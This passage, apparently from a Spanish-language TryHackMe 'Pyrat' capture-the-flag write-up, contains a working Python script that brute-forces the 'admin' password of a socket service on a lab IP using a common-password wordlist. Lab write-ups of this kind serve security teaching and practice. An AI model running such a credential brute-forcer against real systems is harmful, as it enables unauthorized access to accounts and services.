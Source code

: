 ![](../assets/img/pyrat-tryhackme-writeup/5.png)

Elaboramos un script con Python para realizar una ataque de fuerza bruta a través de sockets:
#### Script exploit-root.py:
```python
import socket
import time

# Dirección IP y puerto
ip = "10.10.216.28"
port = 8000

# Usuario
username = "admin"

# Diccionario de contraseñas
with open("/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt", "r") as file:
    passwords = [line.strip() for line in file]

for password in passwords:
    # Crear un socket y conectarse
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print(f"Conectando a {ip}:{port}...")
    s.connect((ip, port))
    print("Conectado.")

    # Enviar el nombre de usuario
    print(f"Enviando nombre de usuario: {username}")
    s.sendall(username.encode() + b'\n')
    time.sleep(1)

    # Recibir solicitud de contraseña y enviar la contraseña
    response = s.recv(1024)
    print(f"Respuesta recibida: {response.decode()}")
    if b"Password:" in response:
        print(f"Probando contraseña: {password}")
        s.sendall((password + '\n').encode())
        time.sleep(1) 

        # Recibir la respuesta después de enviar la contraseña
        response = s.recv(1024)
        print(f"Respuesta recibida: {response.decode()}")

        # Verificar si la contraseña es correcta
        if b"Password:" not in response:
            print("Contraseña correcta encontrada.")
            break

    # Cerrar la conexión
    s.close()
```